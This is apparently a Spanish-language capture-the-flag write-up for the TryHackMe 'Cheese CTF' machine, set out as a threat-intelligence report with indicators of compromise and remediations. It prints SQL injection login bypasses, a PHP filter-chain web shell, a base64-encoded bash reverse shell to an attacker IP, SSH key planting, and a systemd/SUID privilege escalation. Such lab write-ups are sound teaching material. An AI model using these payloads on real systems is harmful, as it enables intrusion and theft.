


<div align="center">
    <figure>
        
    </figure>
</div>

<div align="center">

# Cheese CTF <!-- omit in toc -->
<!-- Fácil-#228B06 | Media-#BFA907 | Difícil-#A62100 -->


</div>

<br>

<div align="center">

  ## Video de resolución <!-- omit in toc -->

  <a href="https://youtu.be/wtvcS_n4-10">
    
    <br>
    Ver video en Youtube
  </a>
</div>

<br><br>

<div align="center">
  <a href="./assets/cheese-cti.pdf">📄 Informe Oficial (PDF)</a>
</div>

<br><br>

# Informe de Inteligencia de Amenazas - Máquina "Cheese CTF" <!-- omit in toc -->

<br>

## Índice <!-- omit in toc -->
- [RESUMEN EJECUTIVO (Executive Summary)](#resumen-ejecutivo-executive-summary)
- [ENTORNO OBJETIVO](#entorno-objetivo)
- [FASE DE RECONOCIMIENTO Y RECOLECCIÓN (Recon­naissance \& Enumeration)](#fase-de-reconocimiento-y-recolección-reconnaissance--enumeration)
  - [Redacción Técnica](#redacción-técnica)
- [Hallazgos de Enumeración Web, Parámeter Tampering, IDOR](#hallazgos-de-enumeración-web-parámeter-tampering-idor)
- [CADENA DE ATAQUE (Kill Chain \& Technical Analysis)](#cadena-de-ataque-kill-chain--technical-analysis)
  - [Acceso Inicial (Initial Access)](#acceso-inicial-initial-access)
  - [Puntuación y Métrica CVSS v3.1](#puntuación-y-métrica-cvss-v31)
  - [Establecimiento de Persistencia y Movimiento Lateral](#establecimiento-de-persistencia-y-movimiento-lateral)
- [ESCALADA DE PRIVILEGIOS (Privilege Escalation)](#escalada-de-privilegios-privilege-escalation)
- [INDICADORES DE COMPROMISO (IoCs)](#indicadores-de-compromiso-iocs)
  - [Indicadores de Red (Network IoCs)](#indicadores-de-red-network-iocs)
  - [Indicadores en Host (Host-Based IoCs)](#indicadores-en-host-host-based-iocs)
- [MAPEO DE TÁCTICAS Y TÉCNICAS (MITRE ATT\&CK)](#mapeo-de-tácticas-y-técnicas-mitre-attck)
- [RECOMENDACIONES Y MITIGACIONES (Actionable Intel­ligence)](#recomendaciones-y-mitigaciones-actionable-intelligence)
  - [Análisis de Remediaciones Técnicas](#análisis-de-remediaciones-técnicas)


<br>

### RESUMEN EJECUTIVO (Executive Summary)
* **Propósito**: Brindar a la dirección o responsables de decisión una vista global en 1-2 párrafos sin jerga técnica excesiva.
* **Impacto Principal**: Compromiso total de la infraestructura (nivel de riesgo *CRÍTICO*) mediante la combinación de vulnerabilidades comunes en servicios web expuestos y desconfiguraciones a nivel de sistema operativo.
* **Vector de Entrada**: Inyección SQL (SQL Injection - SQLi) a través de un formulario de autenticación de usuarios del servicio web mal configurado por el puerto 80/TCP, permitió el acceso al panel de administración y posterior explotación de la vulnerabilidad inclusión de archivos locales (Local File Inclusion - LFI) la cual escala a ejecución remota de comandos (Remote Command Execution - RCE).
* **Movimiento Lateral**: Permisos de escritura indebidos y excesivamente permisivos en el directorio `.ssh` del usuario `comte` lo que facilitó la inyección de una `key.pub` (llave pública) no autorizada en el archivo `authorized_keys` para establecer acceso permanente (persistencia) por el servicio SSH.
* **Escalada de Privilegios**: Mala configuración en la política de privilegios (`sudoers`) combinada con permisos de escritura asignados a usuarios no privilegiados en los archivos de servicio de `systemd` (`exploit.timer`), lo que permitió la ejecución de tareas del sistema (_daemon_) con privilegios de superusuario (`root`).
* **Resumen**: Durante la auditoría/ataque al host `Cheese CTF` se identificó la entrada no autorizada mediante una Inyección SQL (SQL Injection - SQLi) por el formulario de autenticación en la ruta `/login.php`, permitiendo el acceso al *Panel de Administración*. A través de este panel se encontró el mensaje oculto _"If you know, you know"_ haciendo referencia al parámetro `?file=` del script PHP `secret-script.php` que se ejecutaba por detrás del panel de administración con una desconfiguración que no validaba payloads con la función `include()`, permitiendo la inclusión de archivos locales (Local File Inclusion - LFI) que posteriormente escala a inyección remota de comandos (Remote Command Execution - RCE) mediante envoltorios (_wrappers_) `php://filter`.

  Una vez dentro del sistema se identificó que el directorio `/home/comte/.ssh` contaba con permisos abiertos (`drwxr-xr-x`; `755`) y dentro del mismo el archivo `authorized_keys` contaba, también, con permisos de escritura para otros usuarios (`-rw-rw-rw`; `333`), esto permitió registrar una clave SSH (`key.pub`) y pivotar hacia el usuario `comte` de forma interactiva mediante el servicio `SSH` (con el uso de la llave privada creada previamente). Finalmente se identificó que el usuario contaba con permisos de ejecución via `sudo` sobre el gestor de servicios `systemctl` para manipular el servicio `exploit.timer`, archivo que también tenía permisos de escritura. La modificación de esta tarea/servicio del sistema permitió la ejecución arbitraria de comandos como superusuario, resultando en el compromiso de activos del sistema objetivo mediante la copia y asignación de permisos de superusuario mediante el bit SUID (`+sx`) del binario `/usr/bin/xxd` en el directorio `/opt` (`/bin/cp /usr/bin/xxd /opt/xxd && /bin/chmod +sx /opt/xxd`).

--- 
<br>

### ENTORNO OBJETIVO
* **Nombre de la Amenaza / Host**: TryHackMe - Cheese CTF
* **Dirección IP / Alcance**: `10.112.132.138`
* **Sistema Operativo**: Linux Ubuntu 20.04.6 LTS (Focal Fossa)
* **Objetivo Comercial/Función**: Servidor web de producción simulado

---
<br>

### FASE DE RECONOCIMIENTO Y RECOLECCIÓN (Recon­naissance & Enumeration)

####  Redacción Técnica
Durante la fase inicial de reconocimiento no se realizaron escaneos masivos o agresivos de puertos sobre la red/segmento de red, por el contrario, se aplicó un enfoque dirigido al servicio web lo que redujo de forma significativa la huella de la auditoría. El análisis se enfocó directamente en la interacción y vulneración del servicio web HTTP expuesto en el puerto 80/TCP, cuya configuración (_mal_) proporcionó los vectores necesarios (SQLi, LFI/RCE) para la intrusión. 

---
<br>

### Hallazgos de Enumeración Web, Parámeter Tampering, IDOR

* **Estructura de Directorios Descubierta**:
    - `/login.php` → (HTTP 200) - Formulario de autenticación expuesto, vulnerable a inyección SQL (SQLi).
    - `/secret-script.php` → (HTTP 200) - Endpoint interno accesible tras la autenticación, una mala configuración del mismo permite inclusión local de archivos (LFI) mediante el parámetro `file`.

* **Detalles Técnicos**:

  La inspección manual (escaneo pasivo) y el análisis de solicitudes HTTP sobre el servicio web permitieron identificar la ruta de inicio de sesión en `/login.php`. Una vez superado el formulario de autenticación mediante la explotación de inyección SQL, se accedió al panel de administración.

  En dicha interfaz (panel de administración) se descubrió la referencia (mediante un mensaje de guiño/pista, _if you know, you know_) al script `/secret-script.php`, el cual procesaba dinámicamente parámetros de entrada mediante el parámetro (query) `?file=`. El análisis de comportamiento confirmó que este endpoint no aplicaba controles de sanitización ni listas blancas/negras sobre las peticiones entrantes, ejecutando internamente la función `include()` de PHP. Esta mala configuración permitió la lectura arbitraria de archivos del sistema y posteriormente la ejecución de código en el servidor web a través del uso de envoltorios (wrappers) de PHP (`php://filter`).

---
<br>

### CADENA DE ATAQUE (Kill Chain & Technical Analysis)

#### Acceso Inicial (Initial Access)

* **Táctica MITRE ATT&CK**: Initial Access / Exploitation of Public-Facing Application (T1190)

* **Vulnerabilidad Explotada**: CWE-89: Improper Neutralization of Special Elements used in an SQL Command ('SQL Injection')

* **Descripción del Exploit**: Tras una breve inspección a la página de inicio del servidor web (home page), se encontró en la barra de navegación (navbar) un botón/referencia a la ruta/página de autenticación de usuarios (login; `/login.php`), la cual tras unos pocos intentos de inyecciones SQL (SQLi) por el campo de nombre de usuario (`username` field) se logró vulnerar y acceder al panel de administración, la cuál estaba bajo un endpoint/ruta llamado `/secret-script.php`. Una vez ingresado al panel de administración se descubrió el parámetro vulnerable `?file=` el cual llamaba/leía el archivo leído por el usuario autenticado en ese preciso momento (ej. `file=php://filter/resource=supersecretmessageforadmin`) lo que permitió el uso de un exploit customizado.

* **Prueba de Concepto (PoC)**:

Algunos de los *payloads* utilizados (nótese que la información otorgada no se manipulaba vía parámetros sino que se manipulaba de forma dinámica con un script):

```
username=" OR 1=1 -- - 
password=test

username=' OR 1=1 -- - 
password=test

username=' OR "1"="1" -- -
password=test

# A continuación el payload que otorgó acceso
username='||1=1 -- - 
password=test
```

_**NOTA**: Todos los payloads de SQLi utilizados tienen un caracter espacio (space) al final de la cadena de texto (string) que facilita y mejora la estructura del mismo._

**Enlace al exploit customizado**: [https://github.com/synacktiv/php_filter_chain_generator](https://github.com/synacktiv/php_filter_chain_generator)

Posteriormente a la ejecución del exploit customizado, el cual asigna resultados basados en parámetros preestablecidos, se procedió con la asignación de un segundo parámetro (_Parameter Tampering_) para la persistencia mediante el servidor web como el usuario `www-data`

```bash
  ./php_filter_chain_generator.py --chain <?=`$_GET[cmd]`?>
```

_Se recomienda leer las instrucciones del exploit customizado (por terceros) para comprender el uso del mismo_

**Explotación mediante la URL**:

```
  http://10.112.132.138/secret-script.php?cmd=echo+L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzE5Mi4xNjguMTI4LjY4LzMzMzMgMD4mMQ==|base64+-d|bash&file=php://filter/*payload-generado-por-exploit*
```

El payload anterior viene acompañado por el puerto `3333` a la escucha mediante: 

```bash
  nc -nlvp 3333
```

---
<br>

#### Puntuación y Métrica CVSS v3.1
* Puntuación Base: 8.8 (High)
* Vector CVSS: `CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:H/I:H/A:H`

---
<br>

#### Establecimiento de Persistencia y Movimiento Lateral

* **Táctica MITRE ATT&CK**: Persistence / Account Manipulation: SSH Authorized Keys (T1098.004)

* **Vulnerabilidad Explotada**: CWE-732: Incorrect Permission Assignment for Critical Resource

* **Descripción**: Tras establecer conexión mediante una shell inversa (reverse shell), una búsqueda en el directorio perteneciente al usuario `comte` se descubrió que el directorio `/home/comte/.ssh` y el archivo `authorized_keys` dentro de el directorio en cuestión tenían permisos muy permisivos para otros usuarios (`755` y `333` respectivamente) lo que permitió registrar una llave pública (`key.pub`) en el archivo `authorized_keys` creada a través del binario `ssh-keygen` en el directorio `/tmp`, lo que tuvo como consecuencia la creación de persistencia autenticándose con el usuario en cuestión mediante el servicio SSH puerto 22/TCP.

* **Payload Utilizado**:

```bash
  cd /tmp
  ssh-keygen -t rsa -f key # No se asignó passphrase (libre)
  cat key.pub > /home/comte/.ssh/authorized_keys
  cat key # Lectura y copia de la llave privada a la máquina atacante
```

---
<br>

### ESCALADA DE PRIVILEGIOS (Privilege Escalation)

* **Táctica MITRE ATT&CK**: Privilege Escalation / Abuse Elevation Control Mechanism: Sudo and Sudo Caching (T1548.003); Create or Modify System Process: Systemd Service (T1543.002)

* **Vector de Escalada**: La ejecución del comando `sudo -l` reveló que el usuario `comte` poseía permisos de superusuario para gestionar el servicio `exploit.timer` mediante `/bin/systemctl` sin requerir contraseña (`NOPASSWD`). Adicionalmente en el archivo `/etc/systemd/system/exploit.timer` contaba con permisos de escritura para usuarios no privilegiados.

* **Comando de Detección**:

```bash
  sudo -l
    # (ALL) NOPASSWD: /bin/systemctl daemon-reload
    # (ALL) NOPASSWD: /bin/systemctl restart exploit.timer
    # (ALL) NOPASSWD: /bin/systemctl start exploit.timer
    # (ALL) NOPASSWD: /bin/systemctl enable exploit.timer

  vim /etc/systemd/system/exploit.timer

    # Modificación en /etc/systemd/system/exploit.timer:
    [Timer]
    OnBootSec=3 # Asignados 3 segundos para iniciar

    sudo systemctl daemon-reload
    sudo systemctl enable exploit.timer
    sudo systemctl restart exploit.timer
    sudo systemctl start exploit.timer
```

* **Explotación**: Se modificó el tiempo de ejecución del servicio/timer para el servicio `exploit.service` el cual realizaba una copia del binario `/usr/bin/xxd` en el directorio `/opt` y asignaba el bit SUID con ejecución del mismo binario (`+sx`). Tras recargar los servicios, activar el servicio descubierto, recargarlo e iniciarlo, la copia de `xxd` quedó bajo propiedad de `root` con el SUID activo, permitiendo la lectura no autorizada de activos protegidos del sistema (`/root/root.txt`).

* **Payload Utilizado**: 

```bash
  /opt/xxd /root/root.txt
  
  # Optimizado mediante los siguientes:

  /opt/xxd /root/root.txt | xxd -r | tail -n1
```

* **Ejecución exacta del servicio**:

```bash
  /bin/bash -c "/bin/cp /usr/bin/xxd /opt/xxd && /bin/chmod +sx /opt/xxd"
```

---
<br>

### INDICADORES DE COMPROMISO (IoCs)

#### Indicadores de Red (Network IoCs)
* **IPs Maliciosas Relacionadas**: *192.168.128.68* (C2 / Attacker VPNs IP)

* **URLs Afectadas**:

    - `http://10.112.132.138/login.php`
    - `http://10.112.132.138/secret-script.php`

---
<br>

#### Indicadores en Host (Host-Based IoCs)

* **Rutas de Archivos Sensibles/Accesibles**:

  - `/home/comte/user.txt`
  - `/root/root.txt`

* **Rutas de Archivos Modificados/Persistencia**:

  - `/home/comte/.ssh/authorized_keys`
  - `/etc/systemd/system/exploit.timer`
  - `/opt/xxd`

* **Precisiones en Procesos Anómalos**:
* 
  - En la máquina objetivo (_Cheese CTF_) **no existió un proceso** `/bin/bash` **ejecutándose de forma interactiva con UID 0** (`root`).
  - En contraste con el punto anterior, ocurrió la ejecución por parte del demonio (_daemon_) de `systemd` del comando `/bin/bash -c "/bin/cp /usr/bin/xxd /opt/xxd && /bin/chmod +sx /opt/xxd"` y, posteriormente, la presencia de un binario no estándar con el bit SUID activo en `/opt/xxd`.

---

### MAPEO DE TÁCTICAS Y TÉCNICAS (MITRE ATT&CK)

| Fase de la Cadena | ID Técnica | Nombre de la Técnica |
|---|---|---|
| Initial Access | T1190 | Exploitation of Public-Facing Application |
| Reconnaissance | T1593.003 | Search Open Websites/Domains: Code Repositories |
| Resource Development | T1588.005 | Obtain Capabilities: Exploits |
| Persistence | T1098.004 | Account Manipulation: SSH Authorized Keys |
| Privilege Escalation | T1548.003 | Abuse Elevation Control Mechanism: Sudo and Sudo Caching |
| Privilege Escalation | T1543.002 | Create or Modify System Process: Systemd Service |

---
<br>

### RECOMENDACIONES Y MITIGACIONES (Actionable Intel­ligence)

#### Análisis de Remediaciones Técnicas

1. **Corrección en el servicio web (SQLi y LFI/RCE)**:

  - **Inmediata**: Sanitizar las entradas en `/login.php` implementando _Prepared Statements_ (Consultas Preparadas), deshabilitar el uso de envoltorios (wrappers) peligrosos de PHP y restringir el uso de la función `include()` mediante una lista blanca (_allowlist_) en `/secret-script.php`.

  - **Estratégica**: (_Opcional_) Implementar herramientas de análisis estático (SAST) en el desarrollo y un WAF (Web Application Firewall) para mitigar intentos de SQLi e inyección de _wrappers_.

2. **Persistencia (SSH y Permisos)**:

  - **Inmediata**: Restringir los permisos del directorio `/home/comte/.ssh` a `700` (`rwx------`) y del archivo `authorized_keys` a `600` (`rw-------`). Auditar y eliminar la clave pública no autorizada inyectada en el archivo en cuestión.

  - **Estratégica**: Implemetar auditorías periódicas automatizadas de permisos en el sistema de archivos con scripts de cumplimiento (_hardening_) para detectar archivos o directorios de usuario con permisos de escritura para terceros (_other_)

3. **Escalada de privilegios** (`sudoers` y `systemd`):

  - **Inmediata**: Eliminar los permisos de edición sobre `/etc/systemd/system/exploit.timer` para usuarios no privilegiados (`644`; `rwxr--r--`). Configurar la regla en `/etc/sudoers` para revocar el acceso `NOPASSWD` del usuario `comte` sobre `systemctl` y `daemon-reload` y la gestión del _timer_ del _daemon_. Eliminar la copia del binario con el bit SUID causada por el servicio en cuestión en `/opt/xxd`.

  - **Estratégica**: Aplicar el principio de Menor Privilegio (*PoLP*) en las políticas de `sudoers` y configurar auditorías del kernel con `auditd`para monitorear la asignación del bit SUID y la ejecución de comandos con privilegios elevados.

<br><br>

---

<div align="center">

**HellHound DevSecOps**<br>
*Ciberseguridad, Análisis de Sistemas & Reports*

[](https://github.com/xhellhoundx/)
[](https://www.youtube.com/@H3llH0undDSO)
[](https://x.com/hellhoundso)

</div>